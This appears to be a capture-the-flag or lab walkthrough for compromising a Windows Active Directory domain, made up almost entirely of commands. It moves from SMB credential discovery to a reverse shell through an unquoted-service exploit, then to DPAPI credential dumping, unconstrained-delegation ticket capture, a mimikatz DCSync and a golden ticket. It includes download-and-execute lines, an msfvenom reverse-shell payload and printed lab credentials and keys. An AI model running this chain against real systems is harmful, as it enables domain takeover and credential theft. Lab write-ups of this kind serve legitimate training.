

# BASIC

```bash
smbclient -U 'a%a' -L //10.2.10.11
smbclient -U 'a%a' //10.2.10.11/all
> ls
> get administrator.txt
```
Found credentials `alice:WeeklyTaste34`  

Access Powershell WebAccess console by opening `https://10.2.10.11/pswa` in a browser. Use the previous credentials for authentication.  


Next we enumerate vulnerable services with PowerUp.ps1.  
```powershell
iex (iwr -UseBasicParsing "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1")
Get-UnquotedService
Get-ModifiableService
```
Found vulnerable service named "Custom Service 1"  

On the attacker machine run the following commands to create a payload, host it and after it's downloaded on the windows machine, spawn a netcat listener.  
```bash
cd /tmp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > Service.exe
python3 -m http.server # http server to host the payload
nc -lvnp <attacker-port>
```

On the windows machine run the following commands to download the payload and exploite the unquoted service vulnerability.  
```powershell
curl.exe 'http://<attacker-ip>:8000/Service.exe' -o Service.exe
cp .\Service.exe "C:\Program Files\Custom Service1\Service.exe"
cmd /c 'sc stop "Custom Service 1"'
cmd /c 'sc start "Custom Service 1"'
```

Now that we have a reverse shell, find the flag and enumerate the machine.  
```batch
type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\charlie_mail.txt
```
We find the following credentials in charlie_mail.txt: `charlie:FretfulFiddler314`  
Connect over RDP with the charlie user.  


Looking at the credential manager, we see charlie has stored credentials as the bob user.  
This can be seen in the following image.  


For the netexec command to work, the charlie user needs to be a local administrator, so we first add him to the Administrators group.  
We can do this because the reverse shell is ran as the NT AUTHORITY user.
```powershell
net localgroup Administrators basic\charlie /add
nxc smb 10.2.10.11 -u charlie -p FretfulFiddler314 --dpapi
```
Found credentials `basic\bob:ThoughtfulCow292`  

Connect over RDP to SRV02 with the bob user.  
This machine is trusted for unconstrained delegation. We start the Rubeus listener and execute MS-RPRN.exe in another command-line process.
```powershell
curl.exe 'https://raw.githubusercontent.com/Flangvik/SharpCollection/refs/heads/master/NetFramework_4.5_Any/Rubeus.exe' -o Rubeus.exe
.\Rubeus.exe monitor /interval:5 /nowrap
.\MS-RPRN.exe \\dc01.basic.lab \\srv02.basic.lab
```

After we receive a ticket, import the ticket into our current session and execute a dcsync attack with mimikatz.  
```powershell
.\Rubeus.exe ptt /ticket:<ticket>
curl.exe -L https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -o mimikatz_trunk.zip
Expand-Archive mimikatz_trunk.zip
cd .\mimikatz_trunk\x64\
.\mimikatz.exe
> lsadump::dcsync /user:BASIC\krbtgt
```

Finally, we craft a golden ticket as the Administrator user on the DC01 and print out the flag.  
```powershell
.\Rubeus.exe golden /user:Administrator /domain:basic.lab /sid:S-1-5-21-849352622-1517508249-469259959 /aes256:956e50686bd404b24e9f2facb88b23d957cf73e70bfc40bccab553c8d8acdb45 /show /ptt
winrs -r:dc01 cmd /c type C:\Users\Administrator\Desktop\flag.txt
```
